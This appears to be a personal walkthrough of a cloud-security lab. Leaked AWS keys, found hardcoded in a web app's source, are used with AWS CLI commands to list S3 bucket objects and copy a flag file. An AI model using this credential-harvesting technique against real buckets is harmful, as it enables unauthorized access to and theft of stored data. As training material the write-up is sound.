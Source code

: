 S3 is commonly used for storing static resources required by web applications and to store the uploaded files. While building out such applications, special care should be taken on how the file put mechanism is implemented. A poorly coded application can allow the attacker to misuse the S3 bucket.

In this lab, we will take a look at how a client-side put object implementation can provide attackers with additional privileges.   

**Objective:** Find the AWS access key id, access secret key, interact with the S3 bucket and retrieve the flag.

==================================================================

List s3 buckets --> `aws s3api list-buckets`
Check bucket objects --> `aws s3api list-objects --bucket s3-upload-423668550512`
![[Pasted image 20210825193424.png]]
Copy flag from s3 bucket --> `aws s3 cp s3://flag-42366550512/FLAG .`
Cannot copy flag due to insufficient permissions
![[Pasted image 20210825193735.png]]
check contents of other s3 buckets --> `aws s3api list-objects --bucket s3-upload-423668550512`
Check s3 URL format on AWS docs --> `https://<my_bucket>.s3.amazonaws.com`
Use s3 url format to open index.html --> `https://s3-upload-423668550512.s3.amazonaws.com/index.html`

Try uploading files on web application
Check source code of the web application --> AWS credentials are hardcoded inside source code.

Use credentials from source code to enumerate s3 buckets 
![[Pasted image 20210825194809.png]]
Try listing buckets --> `aws s3api list-buckets` --> Access Denied
As bucket names are already known, check bucket objects --> 
`aws s3api list-objects --bucket s3-upload-423668550512`
![[Pasted image 20210825195207.png]]

Copy flag from s3 bucket --> `aws s3 cp s3://flag-42366550512/FLAG .`
File downloaded successfully!


